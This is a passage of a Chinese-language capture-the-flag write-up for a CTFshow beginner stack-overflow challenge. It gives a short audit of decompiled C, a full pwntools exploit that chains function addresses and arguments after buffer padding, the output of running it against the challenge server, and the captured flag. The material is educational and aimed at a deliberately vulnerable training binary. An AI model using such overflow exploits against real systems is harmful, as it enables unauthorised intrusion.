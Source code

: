 ```C
    return printf("%s", s);
  if ( flag1 && flag2 )
    return puts("Incorrect Argument.");
  if ( flag1 || flag2 )
    return puts("Nice Try!");
  return puts("Flag is not here!");
}
```

初略审计，大意就是func1调用，flag1就等于1了，也就为真了

调用func2，此时会检查flag1是否为真，并检查a1是否为对应值

调用flag，此时会检查flag1，flag2是否为真，并检查a1是否为对应值

初略理解至此即可

记录三函数地址，打平字节

```python
payload = flat([b'a'*(0x2c+4),flag1,flag2,flag,-1397969748,-1111638595])
```

完整exp：

```python
import elftools.elf.sections
from pwn import *
p = remote("pwn.challenge.ctf.show",28301)
flag1 = 0x08048586
flag2 = 0x0804859D
flag = 0x08048606
payload = flat([b'a'*(0x2c+4),flag1,flag2,flag,-1397969748,-1111638595])
p.sendline(payload)
p.interactive()
```

```python
D:\python\pythonProject\.venv\Scripts\python.exe D:\python\pythonProject\pwn55.py 
[x] Opening connection to pwn.challenge.ctf.show on port 28301
[x] Opening connection to pwn.challenge.ctf.show on port 28301: Trying 124.223.158.81
[+] Opening connection to pwn.challenge.ctf.show on port 28301: Done
[*] Switching to interactive mode
    ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
  ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
 ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
 ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
 ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
  ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
    ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
    * *************************************                           
    * Classify: CTFshow --- PWN --- 入门                              
    * Type  : Stack_Overflow                                          
    * Site  : https://ctf.show/                                       
    * Hint  : Try to find the relationship between flags!             
    * *************************************                           
How to find flag?
Input your flag: ctfshow{3a9e5798-5ee2-4802-909d-42fb5ab55206}
[*] Got EOF while reading in interactive
```
